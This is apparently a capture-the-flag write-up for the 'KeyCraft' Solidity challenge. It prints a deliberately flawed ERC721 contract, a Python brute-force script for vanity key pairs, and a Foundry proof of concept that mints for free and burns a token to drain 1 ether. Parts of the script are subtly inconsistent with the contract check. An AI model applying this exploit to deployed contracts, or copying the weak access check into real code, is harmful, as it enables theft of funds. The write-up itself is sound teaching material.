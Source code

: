 # KeyCraft

## Challenge

We are provided a contract:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.19;

import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

contract KeyCraft is ERC721 {
    uint totalSupply;
    address owner;
    bool buyNFT;

    constructor(string memory _name, string memory _symbol)
        ERC721(_name, _symbol)
    {
        _mint(msg.sender, totalSupply++);
        owner = msg.sender;
    }

    modifier checkAddress(bytes memory b) {
        bool q;
        bool w;

        if (msg.sender == owner) {
            buyNFT = true;
        } else {
            uint a = uint160(uint256(keccak256(b)));
            q = (address(uint160(a)) == msg.sender);

            a = a >> 108;
            a = a << 240;
            a = a >> 240;

            w = (a == 13057);
        }

        buyNFT = (q && w) || buyNFT;
        _;
        buyNFT = false;
    }

    function mint(bytes memory b) public payable checkAddress(b) {
        require(msg.value >= 1 ether || buyNFT, "Not allowed to mint.");
        _mint(msg.sender, totalSupply++);
    }

    function burn(uint tok) public {
        address a = ownerOf(tok);
        require(msg.sender == a);
        _burn(tok);
        totalSupply--;
        payable(a).transfer(1 ether);
    }
}
```

and a POC setup:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.19;

import {Test} from "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/KeyCraft.sol";

contract KC is Test {
    KeyCraft k;
    address owner;
    address user;
    address attacker;

    function setUp() public {
        owner = makeAddr("owner");
        user = makeAddr("user");
        attacker = <Your Address>

        vm.deal(user, 1 ether);

        vm.startPrank(owner);
        k = new KeyCraft("KeyCraft", "KC");
        vm.stopPrank();

        vm.startPrank(user);
        k.mint{value: 1 ether}(hex"dead");
        vm.stopPrank();
    }

    function testKeyCraft() public {
        vm.startPrank(attacker);

        //Solution

        vm.stopPrank();
        assertEq(attacker.balance, 1 ether);
    }
}
```

Challenge Description:
You are provided with 0 ether. After the hack, you should have 1 ether.

## Solution

The challenge is focused on understanding how public/private-key pairs and addresses are generated on the Ethereum chain. The goal is to get 1 ether. This can be achieved by calling the mint() function without paying anything. This can be achieved by either being the owner or passing the checks in the checkAddress modifier. The checkAddress modifier effectively checks for 2 things:

### 1. Public key -> Address

It first checks if the value b hashed using keccak256 and only using the last 20 bytes is equal to msg.sender. This essentially is what happens when an address is generated from a public key. So we have to pass the public key as b, to pass this check.

### 2. Check for 4bytes of Address

The function then does some weird bit shifts, which essentially leads to checking if a certain 4 bytes are 0x3301. The bytes are marked with an X below. 

```txt
000000000XXXX000000000000000000000000000

```

So to pass this check we need to generate public/private key pairs and calculate their addresses until we find a pair that has these bytes set in its address. I wrote a Python script that does that for me:

```python
from secrets import token_bytes
from coincurve import PublicKey
from sha3 import keccak_256

def generate_public_key(private_key):
    public_key = keys.PrivateKey(bytes(private_key, 32)).public_key
    return public_key

def check_addr(address):
    address = int.from_bytes(address, 'big') & 0xFFFF000000000000000000000000000
    address = address >> 108
    return address == 13057

found_key = False

for i in range(pow(2, 16)):
    private_key = keccak_256(token_bytes(32)).digest()

    public_key = PublicKey.from_valid_secret(private_key).format(compressed=False)[1:]
    addr = keccak_256(public_key).digest()[-20:]

    print("Private Key:", private_key.hex())
    print("Public Key:", public_key.hex())
    print("Address:", addr.hex())

    if check_addr(addr):
        found_key = True
        print("Key found")
        break
```

Then I just used the pair to fulfill the test case. For passing the public key I needed abi.encodepacked and split the public key into 2 uint256s as there is no uint512 in solidity, but the key is 64 bytes long.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.19;

import {Test} from "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/KeyCraft.sol";

contract KC is Test {
    KeyCraft k;
    address owner;
    address user;
    address attacker;

    function setUp() public {
        owner = makeAddr("owner");
        user = makeAddr("user");
        attacker = vm.addr(0x5e5a515c460a667ce45f9e0949c5c2357250556909304b7c2ee8202a4b2909ac);

        vm.deal(user, 1 ether);

        vm.startPrank(owner);
        k = new KeyCraft("KeyCraft", "KC");
        vm.stopPrank();

        vm.startPrank(user);
        k.mint{value: 1 ether}(hex"dead");
        vm.stopPrank();
    }

    function testKeyCraft() public {
        vm.startPrank(attacker);

        k.mint(abi.encodePacked(uint256(0xf89ae7139a2ecac685ff9161992b9ed1be7ae447883a9b42d533b0f67028298f), uint256(0x2cad20f5d06c1a65b3542e5287da1e2cd7c0fe17aeddd21edf58370c6eb1e07d)));

        k.burn(2);

        vm.stopPrank();
        assertEq(attacker.balance, 1 ether);
    }
}
```
